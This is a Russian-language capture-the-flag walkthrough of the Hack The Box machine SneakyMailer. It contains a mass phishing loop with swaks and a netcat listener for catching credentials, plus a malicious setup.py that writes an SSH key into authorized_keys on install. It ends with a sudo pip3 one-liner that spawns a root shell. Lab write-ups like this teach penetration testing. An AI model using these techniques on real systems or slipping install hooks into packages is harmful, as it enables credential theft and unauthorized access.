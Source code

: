 Дисклеймер.  
Все инструменты описанные в данной статье реальны, находятся в свободном доступе и используются специалистами по Информационной Безопасности для проведения тестирования на проникновение информационных систем компаний и предприятий. Автор статьи не занимается взломом и не поощряет подобных действий, все описанное ниже было выполнено на специально подготовленной для этого виртуальной машине.

Наконец переходим в машинам средней сложности. Как обычно начинаем с [[nmap]]
```bash
Host is up (0.12s latency).

Not shown: 993 closed ports

PORT STATE SERVICE VERSION

21/tcp open ftp vsftpd 3.0.3

22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

| ssh-hostkey:

| 2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)

| 256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)

|_ 256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)

25/tcp open smtp Postfix smtpd

|smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING,

80/tcp open http nginx 1.14.2

|http-server-header: nginx/1.14.2

|http-title: Did not follow redirect to http://sneakycorp.htb

143/tcp open imap Courier Imapd (released 2018)

|imap-capabilities: SORT CHILDREN THREAD=REFERENCES OK THREAD=ORDEREDSUBJECT STARTTLS UIDPLUS ENABLE IMAP4rev1 ACL IDLE completed ACL2=UNION UTF8=ACCEPTA0001 CAPABILITY QUOTA NAMESPACE

| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US

| Subject Alternative Name: email:postmaster@example.com

| Not valid before: 2020-05-14T17:14:21

|Not valid after: 2021-05-14T17:14:21

|ssl-date: TLS randomness does not represent time

993/tcp open ssl/imap Courier Imapd (released 2018)

|imap-capabilities: SORT CHILDREN THREAD=REFERENCES OK THREAD=ORDEREDSUBJECT UIDPLUS AUTH=PLAIN ENABLE IMAP4rev1 ACL IDLE completed ACL2=UNION NAMESPACE CAPABILITY QUOTA UTF8=ACCEPTA0001

| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US

| Subject Alternative Name: email:postmaster@example.com

| Not valid before: 2020-05-14T17:14:21

|Not valid after: 2021-05-14T17:14:21

|ssl-date: TLS randomness does not represent time

8080/tcp open http nginx 1.14.2

|http-open-proxy: Proxy might be redirecting requests

|http-server-header: nginx/1.14.2

|http-title: Welcome to nginx!

Service Info: Host: debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

не так много но есть и кое что новое, на сервере запущена почтовая служба

зайдем на сайт, нас тут же редиректит на домен **sneakycorp.htb**добавим его в **/etc/hosts** и обновим страницу.

У нас есть сайт, можно попробовать запустить [[gobuster]], а пока посмотреть 8080 и [[ftp]], на 8080 ничего интересного, а на [[ftp]] нужен логин.

[[gobuster]] нашел вкладку team, посмотрим что тут.  
Хм, видимо список работников. Надо бы забрать email, многие компании его используют в качестве логина.

Воспользуемся любым [[Вебсайты#Экстрактор почт из WEB страницы]], например email-checker.net/extract

получим файл с почтами всех сотрудников, векторов атаки осталось не то чтобы много… пойдем на рыбалку?
[[swaks]]

``` bash
while read mail; do swaks --to $mail --from it@sneakymailer.htb --header «Subject: Credentials / Errors» --body «goto http://10.10.15.253/» --server 10.10.10.197; done < mails.txt
```

 ```bash
nc -lvnp 80
```

устроим нечто наподобие сниффинга трафика, вдруг кто забыл пароль и мы сможем перехватить сообщение техподдержки почтового сервиса.  
Процесс нехитрый, но долгий, у меня получилось со второго раза(

ловим [[HTTP]] пакет в котором все нужные данные в URL кодировке, любым декодером достаем пароль и записываем оттуда же и email сотрудника.

установим [[evolution]] — почтовый клиент для linux систем. настроим и зайдем под этим сотрудником. Прошерстим папки.

В отправленных находим запрос на смену пароля от акка с ником разработчика, в качестве подтверждения отправлен текущий пароль, будем наедятся админ не успел его сменить.

Попробуем зайти на [[FTP]] и у нас выходит, папка /dev, возможно под домен?, отредактируем **/etc/hosts** и посмотрим, так и есть. И раз у нас есть доступ к файлам сайта, выбросим shell.

Получили www-data доступ, быстро зайдем под разрабом т. к знаем его пароль. походим по папкам, узнаем о существовании под домена [[pypi]], придется его тоже добавить, также узнаем что user.txt находится у другого пользователя.

получше изучим [[pypi]] на сайте видно что для изменения нужна аутентификация, и через шелл мы можем только смотреть, этого хватит, так как мы можем найти логин и пароль в скрытом файле. Осталось разгадать хэш пароля, ну тут тоже ничего сложного.

Однако, банальная аутентификация нам тоже ничего не дала, попробуем заабузить установку модуля тем более **sudo -l** дает нам понять что мы могем.

придется попрогать и поиграть в гадалку

для начала из мануалов становится понятно, что надо с нуля написать файл конфигурации

```
distutils index-servers =

index-servers =

local

local

repository: **

username: pypi

password: soufianeelhaoui
```

получилось что-то вроде такого, а теперь еще и с нуля написать модуль и установщик

```python
try:

with open("/home/low/.ssh/authorized_keys","a") as f:

f.write("key")

f.close()

except Exception as e:

pass

import setuptools

setuptools.setup(

name="kali_username",version="0.0.1",author="Example Author",author_email="author@example.com",descripion="just a file",

long_description="",long_description_content_type="text/markdown",url="https://github.com/pypa/sampleproject",

package=setuptools.find_packages(),classifiers="Programming Language :: Python :: 3","License :: OSI Approved :: MIT License","Operating System :: OS Independent")
```

что-то вроде этого сработало, сначала я пытался написать банальный шелл, после того как убедился в том что все это запускается под тем кем нужно, но шелл возвращал меня в ту же точку, поэтому верным решением было бы создать [[ssh]] ключ, так и поступим.

```bash
python setup.py sdist register -r local upload -r local
```

залогинелсь под юзером, сдали флаг. Остался root.

по доброй традиции **sudo -l**

вывод дает нам понять, что мы можем запустить **pip** от root`а

Идеально, а теперь напишем свой модуль

```bash
TF=$(mktemp -d)

echo "import os; os.execl('/bin/sh','sh','-c','sh <(tty) >(tty) 2>$(tty)')" > $TF/setup.py

sudo pip3 install $TF
```

вот такое чудо работает прекрасно.

осталось запустить написанный sh скрипт.

И мы root.1